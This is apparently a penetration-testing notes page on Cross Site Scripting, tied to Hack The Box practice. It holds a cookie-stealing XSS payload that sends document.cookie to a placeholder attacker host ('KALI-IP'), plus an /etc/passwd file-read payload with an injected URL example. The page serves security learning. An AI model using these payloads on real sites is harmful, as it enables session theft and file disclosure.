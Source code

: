 
Cross Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts into a legitimate website or web application, which can then be executed by unsuspecting users. 

XSS attacks can be used to steal sensitive information, such as login credentials or personal data, from users who visit the compromised site. They can also be used to deface websites, redirect users to malicious sites, or perform other malicious activities.


# Guide

1. Remember it relies on an external user and therefor may be unreliable, this may take time or multiple login attempts.
2. The value which gets displayed and can be modified may be in a strange place, check the URL and request parameters.

# Walkthrough

1. [HTB: Holiday | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/09/11/htb-holiday.html)

# Examples

## Stealing Cookies

```
<html>
<body>
<script>
var r = new XMLHttpRequest();
r.open("GET", "http://KALI-IP/" + document.cookie);
r.send();
</script>
</body>
</html>
```

Sending this HTML to the website which will display it will steal the cookie from any user who views it.

## Running Code

[Local File Read via XSS in Dynamically Generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>
```

`https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>&date=2017-08-11&settlement_type=all&advice_id=undefined`